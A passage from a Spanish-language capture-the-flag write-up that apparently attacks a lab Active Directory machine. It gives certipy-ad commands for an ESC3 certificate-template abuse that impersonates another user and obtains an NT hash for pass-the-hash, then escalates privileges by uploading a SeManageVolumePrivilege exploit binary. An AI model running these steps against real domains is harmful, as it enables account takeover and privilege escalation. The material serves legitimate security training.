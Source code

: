 esto resulta interesante porque podriamos explotarlo de la siguiente manera:
> primero obtenemos un certificado de Delegated-CRA (con la ca `Certificate-LTD-CA` y el template `Delegated-CRA` que ya vimos son vulnerable a un `ESC3`),
> despues usamos el certificado anterior para firmar una solicitud en el template SignedUser y asi 
> obtenemos el certificado SignedUser para autenticarnos como otro usuario

```bash
certipy-ad req -u 'Lion.SK' -p '!QAZ2wsx' -ca 'Certificate-LTD-CA' -target 'DC01.certificate.htb' -ns 10.10.11.71 -template 'Delegated-CRA' # primer paso: obtenemos el certificado
```

![image](https://github.com/user-attachments/assets/862f9059-a3de-49e1-a29d-a1ff5ff853cf)

Usamos el certificado genreado antes para solicitar `SignedUser` en nombre de otro usuario, en este caso podemos solicitarlo para el usuario `Ryan.K`

```bash
certipy-ad req -u 'Lion.SK@certificate.htb' -p '!QAZ2wsx' -ca 'Certificate-LTD-CA' -target 'DC01.certificate.htb' -ns 10.10.11.71 -template 'SignedUser' -on-behalf-of 'Ryan.K' -pfx 'lion.sk.pfx'
```

![image](https://github.com/user-attachments/assets/428cd598-2b49-4353-afe2-42fe51e5efd9)

ya con esto podremos autenticarnos como el usuario `Ryan.K`

```bash
certipy-ad auth -pfx ryan.k.pfx -dc-ip 10.10.11.71 -domain certificate.htb
```

![WhatsApp Image 2025-06-22 at 13 05 01](https://github.com/user-attachments/assets/bf296a43-a8ae-452e-97e1-ce6669bc9604)

esto nos a generado el hash `NT` del usuario por lo que podremos usarlo para hacer `Pass-The-Hash`

![image](https://github.com/user-attachments/assets/32f67bf8-195f-4ac4-a596-fc16999b3fc4)

ahora como el usuario `ryan.k` podemos ver un permiso que no tenian los demas usuarios, el permiso `SeManageVolumePrivilege` asi que investigamos y me consigo con que con este permiso es posible obtener una escalada de privilegios, resumiendo un poco, este privilegio permite tomar el control total desde `C:\` asi que nos descargamos el binario que se encarga de explotar esta vulnerabilidad desde `https://github.com/CsEnox/SeManageVolumeExploit/releases`

Una vez descargado lo subimos a la maquina objetivo

```bash
upload SeManageVolumeExploit.exe
```

![image](https://github.com/user-attachments/assets/457c711f-92cf-4861-9fd9-56327175c3aa)

ejecutamos el binario y luego comprobamos si fue posible explotarlo 

![image](https://github.com/user-attachments/assets/e729027b-907b-4d76-9156-6f689050c30f)

aunque termino funcioando, en un principio no funcionaba por lo cual tuve que intentar varias veces hasta que termino teniendo exito!! y otro detalle que observe es que estos permisos parecen ser temporales.... ahora si validamos los certificados veremos esto:
